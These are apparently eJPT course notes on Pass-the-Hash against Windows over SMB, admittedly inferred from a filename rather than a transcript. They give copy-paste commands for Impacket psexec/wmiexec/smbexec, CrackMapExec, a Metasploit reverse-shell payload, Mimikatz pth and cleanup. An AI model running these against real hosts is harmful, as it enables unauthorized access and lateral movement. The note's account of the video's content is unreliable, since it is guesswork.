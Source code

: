 # 11 - Pass-the-Hash With PSExec (eJPT) — Windows Post-Exploitation

Note: No transcript was provided. The following summary is inferred conservatively from the filename and module context (04-WindowsPostExploitation). Commands and flows reflect common eJPT lab practice for performing Pass-the-Hash (PtH) with PSExec-style techniques against SMB-enabled Windows hosts. Use only in authorized lab environments.

## What the video covers (Introduction / big picture)
- The Pass-the-Hash (PtH) technique to authenticate to Windows systems using an NTLM hash instead of a cleartext password.
- Using PSExec-style remote service creation to achieve command execution on a target over SMB (TCP/445).
- Typical workflow: verify SMB exposure, validate the hash works, and leverage Impacket’s psexec.py (and/or alternatives) to obtain an elevated shell.
- Differences and quick alternatives: wmiexec.py and smbexec.py (Impacket), CrackMapExec for validation, and Metasploit’s psexec module.
- Requirements and gotchas: local admin rights, ADMIN$ share accessible, UAC remote restrictions, and domain vs local accounts.

## Flow (ordered)
1. Identify a target with SMB (port 445) exposed.
2. Obtain a valid NTLM (NT) hash for a user with local admin rights on the target.
3. Validate the hash works against SMB.
4. Execute a remote shell using Impacket’s psexec.py (PSExec-like service method).
5. Enumerate the system and pivot as needed.
6. Use alternatives if PSExec is blocked (wmiexec.py/smbexec.py or Metasploit).
7. Clean up artifacts (temporary service/files) if needed.

## Tools highlighted
- Impacket (psexec.py, wmiexec.py, smbexec.py)
- CrackMapExec (CME)
- Nmap (SMB discovery)
- Metasploit Framework (exploit/windows/smb/psexec) — optional
- Sysinternals PsExec (Windows) — note: does not natively accept hashes; often paired with Mimikatz “sekurlsa::pth” if demonstrated from Windows

## Typical command walkthrough (detailed, copy-paste friendly)

Set up handy variables (adjust to your lab):
```bash
export TARGET="10.10.10.20"
export USER="Administrator"         # Or domain user with admin rights on TARGET
export DOMAIN="."                   # Use '.' for local, or e.g. "LAB"
export NTHASH="8846f7eaee8fb117ad06bdd830b7586c"
export LMHASH="aad3b435b51404eeaad3b435b51404ee"   # Common placeholder for empty LM
export DC_IP="10.10.10.10"          # Only if using domain auth and Impacket needs a DC
```

1) Confirm SMB exposure
```bash
nmap -sC -sV -p 135,139,445,3389 -Pn $TARGET
```

2) Validate the hash with CrackMapExec (should show SUCCESS or Pwn3d!)
```bash
crackmapexec smb $TARGET -u "$USER" -H "$NTHASH"
# Optional: enumerate shares to confirm ADMIN$ is accessible
crackmapexec smb $TARGET -u "$USER" -H "$NTHASH" --shares
# Optional: execute a quick command to confirm code execution
crackmapexec smb $TARGET -u "$USER" -H "$NTHASH" -x "whoami"
```

3) PSExec-style shell with Impacket (preferred for interactive cmd)
- Using both LM and NT hash:
```bash
impacket-psexec -hashes "$LMHASH:$NTHASH" "$USER@$TARGET"
```
- If in a domain and name resolution is finicky:
```bash
impacket-psexec -hashes "$LMHASH:$NTHASH" "$DOMAIN/$USER@$TARGET" -dc-ip "$DC_IP"
```
- If your system exposes psexec.py directly:
```bash
psexec.py -hashes "$LMHASH:$NTHASH" "$USER@$TARGET"
# or
python3 -m impacket.examples.psexec -hashes "$LMHASH:$NTHASH" "$USER@$TARGET"
```

4) Alternative execution methods (when PSExec is blocked/detected)
- WMI-based (often quieter than psexec), executes commands and returns output:
```bash
impacket-wmiexec -hashes ":$NTHASH" "$USER@$TARGET"
# Domain example
impacket-wmiexec -hashes "$LMHASH:$NTHASH" "$DOMAIN/$USER@$TARGET" -dc-ip "$DC_IP"
```
- SMBExec (drops a service and runs commands, semi-interactive):
```bash
impacket-smbexec -hashes ":$NTHASH" "$USER@$TARGET"
```

5) Post-exploitation enumeration (inside the shell)
```cmd
whoami /all
hostname
ipconfig /all
net user
net localgroup administrators
net group "Domain Admins" /domain
systeminfo
dir C:\Users
```

6) Optional: Metasploit psexec (hash in SMBPass as LM:NT)
```text
msfconsole
use exploit/windows/smb/psexec
set RHOSTS 10.10.10.20
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
set SMBDomain .
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```

7) Optional: From a Windows jump host with Mimikatz + Sysinternals PsExec
- Create a process with a forged logon using the NT hash, then run PsExec from it:
```text
mimikatz # sekurlsa::pth /user:Administrator /domain:LAB /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe
# In the spawned PowerShell with the forged token:
.\PsExec64.exe \\10.10.10.20 cmd
```
Note: Sysinternals PsExec itself does not accept hashes; the “pass-the-hash” occurs via the forged logon token created by Mimikatz.

8) Cleanup (if artifacts remain)
- Impacket usually cleans up its temporary service and files automatically. If not:
```cmd
sc query state= all | findstr /i "psexec remcom"
sc stop <ServiceName>
sc delete <ServiceName>
del C:\Windows\Temp\<dropped_binary>.exe
```

## Practical tips
- You must have local administrator rights on the target for PSExec-style methods (service creation requires admin).
- The NT hash is required for true PtH. A captured NetNTLMv2 challenge/response is not directly usable for PtH until cracked to a password (or you relay it in a different attack).
- Remote UAC restrictions: local admin accounts connecting over the network may be filtered on modern Windows. Built-in Administrator or domain admin avoids this; otherwise set LocalAccountTokenFilterPolicy in lab scenarios.
- If psexec.py feels unstable or is detected, try wmiexec.py (quieter) or smbexec.py.
- Ensure ADMIN$ share is reachable; if it’s disabled, psexec-style methods will fail.
- When in a domain, add -dc-ip to Impacket commands if name resolution is unreliable.
- Keep Impacket and CME updated; SMB dialect negotiation issues are common on older versions.
- Expect AV/EDR to flag PSExec methods in real environments; this is lab-only behavior.

## Minimal cheat sheet (one-screen flow)
```bash
# Vars
export TARGET="10.10.10.20"
export USER="Administrator"
export DOMAIN="."
export NTHASH="8846f7eaee8fb117ad06bdd830b7586c"
export LMHASH="aad3b435b51404eeaad3b435b51404ee"

# 1) Confirm SMB
nmap -sC -sV -p 135,139,445 -Pn $TARGET

# 2) Validate hash works
crackmapexec smb $TARGET -u "$USER" -H "$NTHASH"
crackmapexec smb $TARGET -u "$USER" -H "$NTHASH" -x "whoami"

# 3) Shell via PSExec-style
impacket-psexec -hashes "$LMHASH:$NTHASH" "$USER@$TARGET"
# or domain
impacket-psexec -hashes "$LMHASH:$NTHASH" "$DOMAIN/$USER@$TARGET" -dc-ip "$DC_IP"

# 4) Alternatives
impacket-wmiexec -hashes ":$NTHASH" "$USER@$TARGET"
impacket-smbexec -hashes ":$NTHASH" "$USER@$TARGET"

# 5) Inside shell
whoami /all && hostname && ipconfig /all
```

## Summary
This video demonstrates Pass-the-Hash against Windows over SMB using a PSExec-style technique to obtain remote command execution. After confirming SMB exposure and validating a working NT hash with CrackMapExec, Impacket’s psexec.py is used to create a service on the target and spawn an interactive cmd shell. Alternatives like wmiexec.py and smbexec.py can be used when PSExec is blocked or too noisy. Key requirements include administrator privileges on the target, access to ADMIN$, and correct handling of domain vs local accounts.